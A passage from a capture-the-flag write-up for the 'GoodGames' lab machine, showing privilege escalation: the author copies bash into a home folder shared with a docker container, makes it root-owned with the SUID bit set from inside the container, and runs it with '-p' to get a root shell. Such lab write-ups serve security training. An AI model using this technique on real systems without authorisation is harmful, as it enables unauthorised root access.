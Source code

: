 ```
uid=1000(augustus) gid=1000(augustus) groups=1000(augustus)
augustus@GoodGames:~$ 

```

Now we are on the host machine as augustus user.

## Privilege Escalation

As augustus user copy bash binary to home folder.

```
augustus@GoodGames:~$ cp /bin/bash .
augustus@GoodGames:~$ ls
bash  user.txt


```

Exit to the docker container and move to home directory of augustus.

Make bash binary owned by root

```
root@3a453ab39d3d:~# chown root:root bash

root@3a453ab39d3d:~# ls -la
total 1100
drwx------ 1 root root    4096 Jul 30 20:39 .
drwxr-xr-x 1 root root    4096 Nov  5  2021 ..
lrwxrwxrwx 1 root root       9 Nov  5  2021 .bash_history -> /dev/null
-rw-r--r-- 1 root root     570 Jan 31  2010 .bashrc
drwx------ 3 root root    4096 Nov  5  2021 .cache
-rw-r--r-- 1 root root     148 Aug 17  2015 .profile
drwx------ 2 root root    4096 Jul 30 20:28 .ssh
-rwxr-xr-x 1 root root 1099016 Jul 30 20:39 bash

```



Set SETUID bit permission to it,

```bash
root@3a453ab39d3d:~# chmod +s bash
root@3a453ab39d3d:~# ls -la
total 1100
drwx------ 1 root root    4096 Jul 30 20:39 .
drwxr-xr-x 1 root root    4096 Nov  5  2021 ..
lrwxrwxrwx 1 root root       9 Nov  5  2021 .bash_history -> /dev/null
-rw-r--r-- 1 root root     570 Jan 31  2010 .bashrc
drwx------ 3 root root    4096 Nov  5  2021 .cache
-rw-r--r-- 1 root root     148 Aug 17  2015 .profile
drwx------ 2 root root    4096 Jul 30 20:28 .ssh
-rwsr-sr-x 1 root root 1099016 Jul 30 20:39 bash
```

  Then ssh back as user augustus and execute bash binary.

```bash
augustus@GoodGames:~$ ./bash -p
bash-5.1# whoami
root

```

Got the root flag !!!
